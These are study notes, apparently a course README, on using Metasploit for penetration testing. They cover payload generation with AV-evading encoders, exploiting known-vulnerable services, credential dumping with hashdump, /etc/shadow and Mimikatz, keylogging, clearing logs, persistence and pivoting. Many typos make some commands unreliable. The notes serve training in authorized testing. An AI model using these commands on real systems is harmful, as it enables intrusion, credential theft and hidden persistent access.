

# METASPLOIT

Open source robust penetration testing and exploitatios framework.

Provides infraestructure to automate every stage of the penetration testing. Also used to develop and test exploits.

- Module: code that performs a particular task
- Exploi: code that takes advantage of a specific vuln
- Payload: code delivered to the target by the exploit
- Listener: utility that listens an incoming connection
- Armitage: GUI for metasploit that simplifies discovery, exploitation and post exploitation.

MSF Architecture:


- Exploit: module used to take advantage of vuln
- Payload: code delivered by exploit exucuted in memory.
- Encoder: encode payloads in order to avoid AV detection
- NOPS: ensure stability of payloads
- Auxiliary: additional funcionality like port scanning and enumeration

MSF Payloads:
- Non staged: payload sent as it is `meterpreter/reverse`
- Staged: `meterpreter_reverse`
    - Stager: establish communication and stage payload is downloaded
    - Stage: payload components downloaded

Important location:
- /usr/share/metasploit-framework/modules
- ~/.ms4/modules

## PENETRATION TESTING WITH METASPLOIT

We can adopt PTES methodology as a roadmap with the various phases that make up a penetration test and how Metasploit can be integrated in to each phase.
1. Information gathering: auxiliary modules
2. Enumeration: auxiliary modules
3. Vulnerability scanning: auxiliary modules
4. Exploitation: exploit modules and payloads
5. Post exploitation: meterpreter
    - Privilege escalation: meterpretes and post exploitation modules
    - Persistance: meterpreter and post exploitation modules
    - Clearing tracks

Load Postgresql before initatiating Metasploit:
```service postgresql start```

### Metasploit variables

### Metasploit workspaces
Workspaces allows us to keep track of hosts, scans and activities
```
workspace -h
workspace <workspace name>  #move to a workspace
workspace -a <name>  #create workspaces
workspace -d <name>  #delete workspaces
hosts
services
loot
creds
vulns
```

### Metasploit and Nmap 
Nmap helps us with
- Discovering
- Scanning
- Enumeration
To integrate nmap results in metasploit follow these steps:
1. Save nmap output: `-oX <name.xml>`
2. Import results in metasploit: `db_import <path to xml>`

Also you can launch nmap inside metasploit with `db_nmap` command and results will be saved.

### Auxiliary modules

- **Scanning**
- **Fuzzing and information gathering**
- **Discovering hosts and ports**

`search portscan`

**Methodology**:
1. Discover open ports
2. Exploiting services
3. Pivoting
4. Same in second target

### Msfvenom 
Generate and enconde payloads. Two utilities msfpayload and msfenconde. It is used to generate a malicious meterpreter payload and transfer it to the target system.
1. Exploit with a payload the target
2. Payload is executed on the target and connects back to msf console.
3. Msfconsole sends meterpreter session.
3. Connection between atacker and victim.

**Encoders** help us to evade old signature based AV solutions. the objective of encoder is to modify payload signature

```
msfvenom --list encoders
msfvenom --list formats
msfvenom --list payloads
msfvenom -a <architecture> -p <payload> LHOST=<> LPORT=<> -i <how many times payload should be encoded> -e <tecnique> -f exe > <>
```

### Vulnerability scanning:
- Nessus with db_import
- WMAP: web application vulnerability scanner
```
load wmap
wmap_sites -a <target>
wmap_sites -l
wmap_targets -t <target>
wmap_targets -l
wmap_run -t  ##vuln scan
wmap_run -e  ##enumeration
wmap_vulns -l
```
### Exploitation of vulnerable services

**1. HTTP File Server**

HFS was designed for dile and document sharing. Runs on TCP port 80 and utilizes HTTP protocol.
**Rejetto HFS V2.3** is vulnerable to remote command execution attack.
`search hfs`
`look in /phpinfo.php`
`curl <> | grep "cgi"`
`curl <> | grep "xdebug_unauth_exec"`
`searcho tomcat_jsp_upload_bypass`

**2. EternalBlue**

SMBv1 protocol is vulnerable to execution of arbitrary commands. The following versions are vulnerable:
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows 8.1
- Windows Server 2012
- Windows 10
- Windows Server 2016
`search eternalblue`
`search badblue_passthru`

**3. WinRM**

Windows remote management protocal used to interact with, configure and execute commands on windows systems on a local network. Uses TCP port 5985 and 5986
`search winrm_login`
`search winrm_auth_methods`
`search winrm__cmd`
`search winrm_scrpt_exec`

**4. Apache Tomcat**

Server used to build and host websites. Uses HTTP protocol and runs on port 8080.
**Apache Tomcat V8.5.19** is vulnerable to remote code execution.
`curl <> | grep "xoda"`


**5. FTP**

File transfer protocol uses TCP port 21 to facilitate file sharing between server and client.
**vsftpd V2.3.4** is vulnerable to command execution vulnerability.
`search vsftpd`

**6. SAMBA**

File sharing protocol uses port 445 and on top of NetBIOS uses port 139. 
**samba V3.5.0** is vulnerable to remote code execution vulnerability.
`search shell_to_meterpreter`
`search is_known_pipename`

**7. SSH**

Remote administratios protcol on port 22. **libssh V0.6.0-0.8.0** is vulnerable to authentication bypass 
vulnerability.
`search ñibssh`

**8. SMTP**

Protocol that enables transmission of emails. Runs on port 25, 465, 587. **haraka < V2.8.9** are vulnerable to command injection.
`search haraka`

**9. MYSQL**
```
search mysql_version
    mysql_login
    mysql_enum
    mysql_sql
    mysql_file_enum
    mysql_hashdump
    mysql_schemadump
    mysql_writable_dirs
```

### Post exploitation

```
use post/multi/gather/ssh_creds
use post/multi/gather/docker_creds
use post/multi/gather/hashdump
use post/multi/gather/ecryptfs_creds
use post/multi/gather/enum_psk
use post/multi/gather/enum_xchat
use post/multi/gather/phpmyadmin_credsteal
use post/multi/gather/pptpd_chap_secrets
use post/multi/gather/sshkey_persistence
```

**Meterpreter fundamentals**

Meterpreter is a paylaod that is used to be executed in memory on the target system. Provides an attacker with an interactive command interpreter in the target system. Allows us to load costum scripts.

**Most used commands**:
```
help
background
cat
cd 
pwd
clearev
download <path>
edit <file>
execute -f <command to be run on target system> -i -H
getuid
hashdump #(run post/windows/gather/hashdump)
idletime
ipconfig
ls
migrate
ps
search
shell
upload
showmount #enumerate share files in NFS Network File System server
screenshot
pgrep <>
portfwd list
```

**Methodology**:
- Enumerate user privileges
- Enumerate logged on users
- VM check
- Enumerate computers connected to domain
- Enumerate installed programs
- Enumerate AVs
- Enumerate installed patches
- Enumerate shares

**Modules**
```
search
    migrate
    win_privs
    applications
    logged_on
    check_vm
    enum_av
    enum_computer
    enum_patches
    enum_shares
    enum_configs
    env
    enum_network
    enum_protections
    enum_system
    checkcontainer
    checkvm
    enum_users_history
    system_session
    download_exec #to use this you have to create first a bash file (for example with the creation of users), then run apache server and finally copying de bash file to the apache server.
```

´/etc/ini.d/apache2 start´
´cp <bash file> /var/www/html´

### WINDOWS 

**1. Bypassing UAC**

`search bypassuac_injection`

**2. Token impersonation**

Privileges required for a succsessful impersonation attack:
- SeAssignPrimaryToken
- SeCreateToken
- **SeImpersonarePrivilege**

**Incognito** is a meterpreter module that can impersonate user tokens after successful exploitation.

**Note**: migrate to lsass, explorer processes
```
use incogmito
    list_tokens -u
    impersonate_token -token <token>
    impersonate_token <token>
```

**3. Dumping hashes with Mimikatz**

Post exploitation tool that allows us to extract credentials from memory and password hashes from SAM databases. The meterpreter extensions is called kiwi. 
```
migrate -N lsass.exe
load kiwi
    creds_all
    lsa_dump_sam
    lsa_dump_secrets
upload /usr/share/windows-resources/mimikatz/<arh>/mimmikatz.exe
./mimikatz.exe
    lsadump:;sam
    sekurlsa:;logonPasswords
```

**4. Pass The Hash**

The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for.
`search psexec`

**5. Persistence**

Search for post exploitation persistence modules.
`search platform:windows persistence`

**6. RDP**

Remote access protocol on port 3389. Utilized to remotly access to a system.
```
search enable_rdp
use ...
run
    shell
        net user administrator <new pass> #changing password

xfreerdp /u:<user> /p:<pass> /v:<IP>
```

**7. Keylogging**

```
meterpreter> keyscan_start
meterpreter> keyscan_dump
```

**8. Clearing tracks**

`clearev`

**9. Pivoting**




```
run autoroute -s <range>
portfwd add -l <vm1 port> -p <vm2 port> -r <ip>: if we find an open port on second attacker machine then we can forward that port to another one in our local host, for example to port 1234, inside the meterpreter session. then if we do a nmap in the localhost the information of the service of vm2 will be there
```
**Post module autoroute:**
```
search autoroute
use <>
set SESSION <session with meterpreter>
run
route
```
This will scan the computer where we have the session established to try to recognize other networks associated with that machine and will automatically add them to our Metasploit route table

From the Kali machine (machine A) we try to connect to the Linux machine to port 80 (machine C), which we know is open, and we see that we cannot connect directly since from the Kali machine we do not have visibility to the 11.0 network. 0.0/24.

However, from session 1 where we have our meterpreter from the Ubuntu machine (machine B) it does have visibility with the 11.0.0.0/24 network where the Linux machine is (machine C).

From the session 1 meterpreter we add a new port forwarding rule.
```
portfwd add -l <local_port> -p <remote_port> -r <remote_host>

```

With this we indicate that all the requests we make to the local port of machine A Kali are forwarded to port 80 of IP 11.0.0.10, which will be machine C Linux. Machine B being Ubuntu who does the port forwarding between machine A and C.

If we want to do a nmap scan in the second machine we can upload a binary on the target (binaries available in `root/tools/static-binaries`) and from the target scan the second target


### LINUX

**1. Hashes**
```
search hashdump
cat /etc/shadow
meterpreter> shell
    shell>/bin/bash -i
        bash> passwd <username> #chane or create password of actual user
        bash> useradd -m <username> -s /bin/bash #create user
```

**2. Persistence**
```
search chkrootkit
usermod -aG <group name> <username> #adds username to that group so it has same privileges
usermod -u <id> <username> #changes UID of a user
```
sshkey_persistence module adds our SSH key or creates a new one and adds it to all the users who exist on the target server. Therefore, the next time we want to login to the server, it will never ask us for a password and will simply allow us inside with the key. 
```
search cron_persistence
search service_persistence
search sshkey_persistence
    vim ssh_key #paste here ssh_key
    chmod 0400 <>
    ssh -i ssh_key root@<ip>
```